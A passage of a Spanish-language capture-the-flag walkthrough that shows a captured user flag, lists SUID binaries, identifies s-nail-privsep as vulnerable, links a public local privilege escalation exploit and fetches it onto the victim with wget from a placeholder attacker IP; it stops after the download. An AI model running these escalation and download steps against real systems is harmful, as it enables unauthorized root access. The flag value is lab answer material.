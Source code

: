 > user.txt

```
0FAD8F4B099A26E004376EAB42B6A56A
```

## Escalate Privileges

Si listamos los permisos `SUID` veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
25269    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
    31941     12 -rwsr-xr-x   1 root     root        10104 Jan  1  2016 /usr/lib/s-nail/s-nail-privsep
    21909     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    16365     12 -rwsr-xr-x   1 root     root          10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
       81     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
     4028     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
       76     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
     4030     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
     3547     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
     3694     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
       79     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
       77     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
```

Veremos entre todo esto una cosa bastante interesante y muy poco comun, que seria la siguiente linea:

```
31941 12 -rwsr-xr-x  1 root  root 10104 Jan 1 2016 /usr/lib/s-nail/s-nail-privsep
```

Si empezamos a buscar dicho binario a ver si encontramos alguna vulnerabilidad efectivamente la encontraremos y es que ese binario no deberia de tener permisos `SUID` ya que podremos realizar esto:

URL = [Vulnerabilidad S-nail LPE](https://www.exploit-db.com/exploits/47172)

Vamos a descargarnos el archivo en nuestra maquina `host` echo eso, nos abriremos un servidor de `python3` para pasarnos el archivo a la maquina victima:

```shell
python3 -m http.server 80
```

Ahora en la maquina victima ejecutaremos lo siguiente:

```shell
cd /tmp
wget http://<IP_ATTACKER>/47172.sh
```
